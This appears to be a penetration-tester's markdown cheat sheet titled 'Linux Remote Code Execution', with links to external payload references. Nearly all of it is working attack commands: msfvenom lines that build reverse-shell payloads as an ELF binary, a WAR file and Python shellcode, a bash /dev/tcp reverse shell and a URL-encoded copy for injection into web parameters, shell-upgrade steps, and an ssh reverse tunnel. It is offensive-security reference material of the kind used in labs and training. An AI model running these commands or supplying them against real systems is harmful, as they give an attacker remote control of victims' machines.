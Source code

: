 # Linux Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

### Check list

``` bash
msfvenom  --list encoders
```

### File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Java Code

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -v shellcode -f py
```

## Reverse Shell using bash

``` bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

``` bash
bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.56.110%252f4444+0%3e%261
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo
fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```